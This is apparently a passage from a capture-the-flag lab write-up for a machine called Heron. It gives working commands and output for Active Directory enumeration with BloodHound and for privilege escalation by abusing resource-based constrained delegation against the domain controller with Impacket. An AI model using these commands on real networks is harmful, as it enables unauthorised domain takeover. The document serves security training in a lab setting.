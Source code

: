 ```bash
cme ldap heron.vl -u samuel.davies -p 'REDACTED' -k --bloodhound -ns 10.10.173.53 -c all

# Dont forgot to add 'mucdc.heron.vl' in your /etc/hosts
``` 
![alt text](../assets/image_heron/6er.png)

## Privesc RBCD on SPN-less users

Let's abuse this : [https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd](https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd)

```bash
nxc ldap "10.10.173.53" -u 'adm_prju'  -p 'REDACTED' -M maq

SMB         10.10.173.53    445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True)
LDAP        10.10.173.53    389    MUCDC            [+] heron.vl\adm_prju:REDACTED
MAQ         10.10.173.53    389    MUCDC            [*] Getting the MachineAccountQuota
MAQ         10.10.173.53    389    MUCDC            MachineAccountQuota: 0
```
So we can't delegate with a null machine

```bash
# create
rbcd.py -delegate-from 'adm_prju' -delegate-to 'mucdc$' -dc-ip 10.10.173.53 -action 'write' 'heron.vl/adm_prju:REDACTED'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] adm_prju can now impersonate users on mucdc$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     adm_prju     (S-1-5-21-1568358163-2901064146-3316491674-24596)

# check 
rbcd.py -delegate-to 'mucdc$' -dc-ip 10.10.173.53 -action 'read' 'heron.vl/adm_prju:REDACTED'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Accounts allowed to act on behalf of other identity:
```